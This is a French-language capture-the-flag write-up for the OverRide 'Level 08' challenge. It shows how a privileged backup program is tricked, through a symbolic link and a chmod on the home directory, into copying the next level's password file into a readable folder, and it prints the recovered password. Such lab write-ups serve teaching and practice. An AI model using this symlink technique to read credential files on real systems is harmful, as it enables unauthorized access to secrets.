

# Level 08

### Protections



### Exploitation

Le programme recoit en argument un chemin vers un fichier qu'il va ouvrir.

Il ouvre egalement un fichier a la destination `./backups/.log` et **prepare la creation d'une copie de notre fichier dans ce meme repertoire**.

On constate la presence du **FULL RELRO** et de **Canary**, ce qui complique les exploitations directes du programme tel que les Buffer Overflows, ou les Ret2Libc.

On dispose des permissions de lecture sur les copies dans `~/backups/`.

Ayant fait **SnowCrash** et **Rainfall**, on se demande si le programme ne peut pas simplement ouvrir `/home/users/level09/.pass`.

```none
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Non, le parsing du programme fait qu'une erreur apparait, mais du coup, peut-etre juste faire un lien symbolique ? Dans notre home ?

```
level08@OverRide:~$ ln -s /home/users/level09/.pass mouahahah
ln: failed to create symbolic link `mouahahah': Permission denied
```

Wait..

`level08@OverRide:~$ chmod 777 .`

Voila:

```
level08@OverRide:~$ ln -s /home/users/level09/.pass mouahahah
level08@OverRide:~$ ./level08 mouahahah
level08@OverRide:~$ cat backups/mouahahah 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

**fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S**
